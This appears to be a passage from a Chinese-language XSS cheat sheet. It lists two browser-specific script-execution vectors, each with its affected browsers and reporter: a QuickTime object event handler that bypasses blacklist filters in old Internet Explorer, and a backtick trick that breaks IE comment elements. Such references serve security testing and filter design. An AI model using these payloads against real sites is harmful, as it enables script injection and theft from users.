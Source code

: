 *   safari 5.0

*   safari latest

*   html

*   dom

reporter：hasegawayosuke

### QuickTime 事件导致 JavaScript 代码执行#126test

在上方展示的经过构造的用法或多或少会触发 QuickTime 的未知 DOM 事件。那些包含下划线”_”的事件句柄很罕见，使它可以绕过大多数黑名单过滤。这一攻击只有满足以下条件才能生效：两个<object>标签；前一个<object>标签为后一个<object>标签提供了必要的 behavior

```
<object id="x" classid="clsid:CB927D12-4FF7-4a9e-A169-56E4B8A75598"></object> <object classid="clsid:02BF25D5-8C17-4B23-BC80-D3488ABDDC6B" onqt_error="alert(1)" style="behavior:url(#x);"><param name=postdomevents /></object> 
```

*   internet explorer 6.0
*   internet explorer 10.0

*   quicktime

*   html
*   event
*   object
*   classid
*   xss

*   [`developer.apple.com/library/mac/#documentation/QuickTime/Conceptual/…ocument/QuickTimeandJavaScri.html#//apple_ref/doc/uid/TP40001526-CH001-SW6`](http://developer.apple.com/library/mac/#documentation/QuickTime/Conceptual/…ocument/QuickTimeandJavaScri.html#//apple_ref/doc/uid/TP40001526-CH001-SW6)

reporter：.mario

### 使用属性界定符打破 IE 注释元素#133test

在 IE9 以下的版本中中可以使用`打破注释元素

```
<!-- `<img/src=xx:xx onerror=alert(1)//--!> 
```

不允许用户提交注释标签

*   internet explorer 6.0
*   internet explorer 8.0

*   xss

*   comments
*   internet explorer
*   backtick

*   #62

